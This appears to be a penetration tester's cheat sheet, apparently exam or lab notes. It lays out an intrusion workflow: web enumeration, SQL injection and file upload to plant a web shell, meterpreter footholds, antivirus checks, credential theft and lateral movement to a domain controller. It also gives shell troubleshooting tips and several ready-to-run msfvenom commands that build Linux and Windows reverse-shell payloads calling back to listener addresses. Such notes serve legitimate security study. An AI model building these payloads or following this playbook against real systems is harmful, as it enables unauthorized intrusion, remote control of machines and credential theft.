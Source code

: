 Approach
- Scan and enumerate services in web-facing machines
- Enumerate webpages
- Look for vuln in web tech version, plugins
- SQLi, FI, file upload to get web shell and catch using nc
- Upload a meterpreter shell for foothold
- With foothold, add route and check arp
- Use portscan to find interesting servers, like DC, and enumerate domain users and machines (wevtutil)
- On Windows, always check for AV first!!! Msmpeng.exe == Windows Defender
- Find creds (pref domain admin) and pivot to other machines in the domain using wmic, net use, winrm
- Use other machines to access DC?

Troubleshooting

No shell

	- Can target reach back to kali? Check connection using DownloadString or IWR with a hosted file
	- Is firewall blocking traffic?
	- Is payload file still there? AV might have quarantined it
	- Is the process running?
	- Do I have permission to execute? icacls
	- Is the listening port open for bind shells? Is intermediate nodes listening?
	- Try different payload, bind/reverse, tcp/http?
	- Doublecheck multi/handler payload, IP, port

Command doesnt work

	- Is dir writeable? Do i have privs?
	- Powershell version?
	- Server reachable?
	- Pipe output to file to check 2>error.txt 1>result.txt
	- Escape "", or \\
	
Logging

	in msf
	show options
	set consolelogging true
	set sessionlogging true
	sudo cat /root/.msf4/logs/console.log


msfvenom
	
  - Reverse shells
  
        msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=11.11.133.111 LPORT=1234 -f elf -o service86.elf --ok!
        msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=11.11.133.111 LPORT=1234 -f elf -o service64.elf --ok!
        msfvenom -p  windows/meterpreter/reverse_tcp LHOST=11.11.133.111 LPORT=443 -a x86 -f exe -o services.exe --ok!
        msfvenom -p  windows/meterpreter/reverse_tcp LHOST=192.168.11.101 LPORT=7777 -f psh-cmd -o win.bat --ok!
        Run bat by just calling file
